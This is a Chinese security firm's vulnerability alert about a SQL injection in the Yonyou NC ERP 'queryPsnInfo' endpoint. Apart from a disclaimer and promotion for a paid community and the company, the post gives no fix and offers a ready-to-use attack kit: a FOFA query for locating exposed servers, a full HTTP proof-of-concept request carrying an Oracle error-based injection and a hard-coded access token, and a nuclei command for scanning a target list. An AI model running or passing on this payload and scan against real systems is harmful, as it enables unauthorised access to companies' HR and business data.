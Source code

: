 #  漏洞预警 用友 NC querypsninfo SQL注入漏洞   
by 融云安全-sm  融云攻防实验室   2024-08-04 22:28  
  
**0x01 阅读须知**  
  
**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
  
**0x02 漏洞描述**  
  
用友 NC querypsninfo 存在SQL注入漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xgJFvErD3n6sdic4cwRicOMavmfoHRgKqX6SrUEH5m6PeLqBDPk6s22FkrPhlSYWTMOAwsXibicF0aXQ/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞复现**  
  
**fofa-qeury: title="YONYOU NC"**  
  
1.执行poc进行sql注入，得到数据库信息  
```
GET /ncchr/pm/obj/queryPsnInfo?staffid=1%27+AND+1754%3DUTL_INADDR.GET_HOST_ADDRESS%28CHR%28113%29%7C%7CCHR%28106%29%7C%7CCHR%28122%29%7C%7CCHR%28118%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%281754%3D1754%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28107%29%7C%7CCHR%28107%29%7C%7CCHR%28113%29%29--+2222 HTTP/1.1
User-Agent: Mozilla/5.0 
Accesstokenncc: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiIxIn0.F5qVK-ZZEgu3WjlzIANk2JXwF49K5cBruYMnIOxItOQ
Host:
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xgJFvErD3n6sdic4cwRicOMa2cAFR7j8E4s55CWticV1U0H8WAcczyyD46aUwBXUOtoaHrcVibnOFnmw/640?wx_fmt=png&from=appmsg "")  
  
2.nuclei验证脚本已发布于知识星球  
```
nuclei.exe -t yongyou-nc-querypsninfo-sqli.yaml -l subs.txt -stats
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49xgJFvErD3n6sdic4cwRicOMahTicDasNibnCa8AHzV4B7D6IN4RnibUj87icum8vp849BVqribicjD7ZVSfg/640?wx_fmt=png&from=appmsg "")  
  
**加入星球请扫描下方二维码，更多精，敬请期待！**  
  
👇👇👇  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/GWXBjgPE49zs4eNkNzwGvylxKjRnH2aibQqdbEUPicwHRpyuIhk7YdcECWw9kZGCibot3aRDzS4ADTmywx57c7QBw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**星球亮点：**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GWXBjgPE49wOibwjXDprJGvrk2gbZcTcOtD9ztDD6NyMvkNhUuMN8yPWicCI7MjOWvTQibLgQsXUqBPY0jPwHzQ6A/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
  
**0x04 公司简介**  
  
江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......  
  
**编制：sm**  
  
**审核：fjh**  
  
**审核：Dog**  
  
****  
**1个1朵********5毛钱**  
  
**天天搬砖的小M**  
  
**能不能吃顿好的**  
  
**就看你们的啦**  
  
****  
  
  
